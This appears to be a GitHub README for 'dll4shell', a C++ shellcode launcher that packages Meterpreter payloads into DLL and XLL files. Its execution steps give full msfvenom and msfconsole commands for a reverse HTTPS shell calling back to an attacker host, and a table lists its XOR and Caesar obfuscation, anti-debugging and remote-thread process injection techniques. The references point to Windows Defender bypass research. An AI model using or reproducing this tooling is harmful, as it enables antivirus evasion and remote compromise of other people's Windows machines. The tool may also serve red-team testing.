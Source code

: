 ### C++ shellcode launcher

A collection of DLL wrappers using various shellcode injection and obfuscation techniques. Based on the "charlotte" tool and research mentioned in external references.

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Code invocation              |
|----------------|-------------------------------|-----------------------------|
|xor             |XOR, const char                |VirtualAlloc, CreateThread   |
|xor1            |XOR, unsigned char             |VirtualAlloc, CreateThread   |
|xor2            |XOR, antidebugging             |Process Injection (VirtualAllocEx, CreateRemoteThread)|
|xor3            |XOR, antidebugging             |hHeapAlloc, hCreateThread    |
|shift           |Cezar, const char              |VirtualAlloc, CreateThread   |
|shift1          |Cezar, unsigned char           |VirtualAlloc, CreateThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|
|payload        |save encrypted payload only|

### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)